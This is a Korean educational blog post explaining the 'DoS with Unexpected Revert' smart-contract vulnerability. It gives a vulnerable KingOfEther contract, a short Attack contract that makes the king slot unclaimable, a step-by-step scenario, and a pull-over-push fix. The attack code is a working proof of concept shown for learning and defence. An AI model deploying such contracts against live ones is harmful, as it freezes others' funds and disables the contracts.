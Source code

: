 ```yaml
---
emoji: 🧢
title: (취약점 시리즈 6) DOS Unexpected Revert
date: '2021-12-29 11:29:00'
author: 한성원
tags: DOS Unexpected Revert UnexpectedRevert 취약점 SmartContract
categories: 취약점분석
---
```



# 👋 Unexpected Revert

## Unexpected Revert란?
Unexpected Revert는 이름에서 알 수 있듯이, 트랜잭션을 고의적 revert시킴으로써 스마트 계약이 작동되지 않는 상태로 만드는 취약성입니다.

- - -

## Example code

```solidity
contract KingOfEther {
    address public king;
    uint public balance;

    function claimThrone() external payable {
        require(msg.value > balance, "Need to pay more to become the king");

        (bool sent, ) = king.call{value: balance}("");
        require(sent, "Failed to send Ether");

        balance = msg.value;
        king = msg.sender;
    }
}

contract Attack {
    KingOfEther kingOfEther;

    constructor(KingOfEther _kingOfEther) {
        kingOfEther = KingOfEther(_kingOfEther);
    }

    function attack() public payable {
        kingOfEther.claimThrone{value: msg.value}();
    }
}

```
<span style="color:grey">출처: https://solidity-by-example.org/hacks/denial-of-service/</span> 

시나리오는 이렇다.
1. KingOfEther of Ether Contract가 배포된다.
2. 처음으로 A가 1 Ether를 claimThrone()에 보냄으로써 King이 된다.
2. 다음으로 B가 2 Ether를 claimThrone()에 보냄으로써 B가 King으로 바뀐다. King이 바뀌기 전에 A에게 1 Ether를 refund 해준다.
3. C가 KingOfEther의 주소와 함께 Attack contract를 배포한다.
4. C는 Attack.attack을 3 Ether와 함꼐 호출한다. 
5. C는 C는 king이 되고 Attack contract는 ether를 받을 수 없기 때문에 다른 누구도 king이 될 수 없게 된다. 즉 KingOfEhter은 무의미한 contract가 된다.

EVM이 externally owned accounts와 contract accounts를 구분하지 않는다는 점을 악용한 것 같아보인다. 

- - -

## How to prevent?
#### __pull over push__
pull over push를 통해 문제를 해결 할 수 있다. pull over push는 contract를 분리함으로써 attacker의 공격을 attacker의 손실로만 처리 할 수 있다. 위의 코드를 pull over push로 바꾸어보았다.

```solidity
contract KingOfEther {
    address public king;
    uint public balance;
    mapping(address => uint) public balances;

    function claimThrone() external payable {
        require(msg.value > balance, "Need to pay more to become the king");

        balances[king] += balance;

        balance = msg.value;
        king = msg.sender;
    }

    function withdraw() public {
        require(msg.sender != king, "Current king cannot withdraw");

        uint amount = balances[msg.sender];
        balances[msg.sender] = 0;

        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }
}

이 코드는 Example 코드의 claimThrone() function이 2개의 function으로 나누어 진 것을 볼 수 있다. 위 코드의 claimThrone()는 king을 바꾸는 용도로만 사용된다. 그리고 king에서 쫒겨난 사람들은 withdraw 함수를 통해 ether를 다시 가져올 수 있다.

```
## 마무리
취약점들에 대해서 공부하면서 나는 EVM에 대해서 알아가야 할 부분이 많다는 생각이 든다. ~~잘안다고 생각했는데ㅋㅋ~~ 갈 길이 멀다!! 꾸준히 공부하자:)

- - -

### Reference
- https://consensys.github.io/smart-contract-best-practices/known_attacks/#dos-with-unexpected-revert
- https://solidity-by-example.org/hacks/denial-of-service/
- https://consensys.github.io/smart-contract-best-practices/recommendations/#favor-pull-over-push-for-external-calls
- https://arxiv.org/pdf/2105.02852.pdf

```toc

```